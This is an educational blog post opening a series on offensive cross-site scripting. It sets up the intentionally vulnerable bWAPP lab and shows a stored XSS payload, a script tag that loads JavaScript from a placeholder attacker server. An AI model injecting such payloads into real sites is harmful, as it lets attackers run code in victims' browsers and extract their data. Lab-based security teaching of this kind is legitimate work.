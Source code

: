 ```yaml
---
layout: post
title:  "Offensive XSS 1: Data extraction"
date:   2022-03-20 18:05:55 +0300
image:  OffensiveXSS1/title.jpg
author-name: strik1r
tags:   [XSS, data extraction]
---
```


<h2>Prologue:</h2>
In this blog post series we will start to take a look at all the things we can do with xss. We will be discovering the impact an XSS vulnerability can have and this also increases your vulnerability report's value. This post will focus on data extraction.
<br>
<h3> Environment Setup </h3>
Throughout this series we will be using Bee WebAPP. The reason is that this application has so many vulnerabilities that can be used for testing. You can download and setup the VM from here: [Bee](https://www.vulnhub.com/entry/bwapp-bee-box-v16,53/)
Make sure your attacker machine and the Bee Webapp are on the same network segment.
<br>

<h2>The XSS</h2>
In our blogs we're not gonna focus on how to find XSS vulnerabilities or different XSS payloads. We will inject one simple XSS on the page that the victim would execute. The payload is intended to download a JavaScript file hosted on our attacker web server and execute it on the victim's browser.
<br>
```
<script src=http://serverIP/file.js></script>
```
![](/img/OffensiveXSS1/inject.PNG)

We will inject this into the XSS - Stored (Blog) section.
We will also start a web server so our JavaScript files can be downloaded.
You may use any webserver you want. We will use basic python2's SimpleHTTPServer module to host our payloads.
<br>
